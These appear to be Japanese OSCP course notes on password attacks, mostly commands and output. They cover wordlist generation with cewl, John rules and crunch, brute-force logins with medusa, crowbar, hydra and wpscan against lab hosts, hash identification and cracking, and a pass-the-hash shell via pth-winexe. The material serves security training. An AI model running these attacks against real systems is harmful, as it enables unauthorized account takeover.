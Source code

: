 # PasswordAttacks

### wordlistの作成

```
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
wc -l megacorp-cewl.txt
grep Nano megacorp-cewl.txt
```

### wordlistの末尾に数字2桁を自動付与する方法

John the ripperの設定ファイルにルールを追加する

```
sudo cp /etc/john/john.conf /etc/john/john.conf.bak
sudo nano /etc/john/john.conf
```

```bash
kali@kali:~$ sudo nano /etc/john/john.conf
...
# Wordlist mode rules
[List.Rules:Wordlist]
# Try words as they are
:
# Lowercase every pure alphanumeric word
-c >3 !?X l Q
# Capitalize every pure alphanumeric word
-c (?a >2 !?X c Q
# Lowercase and pluralize pure alphabetic words
...
# Try the second half of split passwords
-s x_
-s-c x_ M l Q
# Add two numbers to the end of each password
$[0-9]$[0-9]
...
```

特殊文字を含む例

```
$[0-9]$[0-9]$[0-9]$[0-9]$[$%^&*()-_+=|\<>[\]{}#@/~]$[$%^&*()-_+=|\<>[\]{}#@/~]
```

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml

hashcatも同様のルールを踏襲している。

```
john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt
grep Nanobot mutated.txt
```

--wordlist：辞書ファイルを指定

--rules：設定ファイルのルールを有効

--stdout：結果を標準出力に出力

### crunchを用いたwordlist作成

| PLACEHOLDER | CHARACTER TRANSLATION              |
| ----------- | ---------------------------------- |
| @           | Lower case alpha characters        |
| ,           | Upper case alpha characters        |
| %           | Numeric characters                 |
| ^           | Special characters including space |

* 8桁のパスワードリストを作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 8 8 -t ,@@^^%%%                                                                                
Crunch will now generate the following amount of data: 172262376000 bytes
164282 MB
160 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 19140264000 
```

* 文字を指定して作成

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ crunch 4 6 0123456789ABCDEF -o crunch.txt                                                             
Crunch will now generate the following amount of data: 124059648 bytes
118 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 17891328 
```

* あらかじめ定義された文字セットを利用して作成

```bash
kali@kali:~$ crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
Crunch will now generate the following amount of data: 140712049920 bytes
134193 MB
131 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 20158125312 
```



### medusaを用いたパスワードリスト攻撃

```bash
medusa -h 192.168.250.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# 対応プロトコルの確認
medusa -d
```



### Crowbarを用いたパスワードリスト（RDP）

```
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

* -b：プロトコル



### ハッシュ種類の特定

```bash
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```



### Pass the Hash (pth-winexe)

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/19.PasswordAttacks]
└─$ pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.250.10 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

※offsec%<1つ目のハッシュ>：<2つ目のハッシュ>のうち2つ目はNTLMハッシュだが1つ目のハッシュが何者か現時点わかっていない。

↓これが答え。1つ目は空のLMハッシュ

https://yougottahackthat.com/blog/339/what-is-aad3b435b51404eeaad3b435b51404ee



### John the ripper

パスワードリストとハッシュファイルを用意すること

.rarファイルの場合

```
rar2john flag.rar > /home/student/hash.txt
zip2john flag.zip > hash.txt
```

```
john --wordlist=/home/student/mutated.txt /home/student/hash.txt 
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

ワードマングリング

```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

https://miloserdov.org/?p=5477

https://www.openwall.com/john/doc/RULES.shtml



### hydra

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 172.18.0.2 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F172.18.0.2%2Fwp-admin%2F&testcookie=1:F=incorrect.'
```



### WPscan

```bash
wpscan --url http://localhost:80/ -U offset -P /usr/share/wordlists/rockyou.txt
```

https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation





### secList

https://github.com/danielmiessler/SecLists/tree/master/Passwords
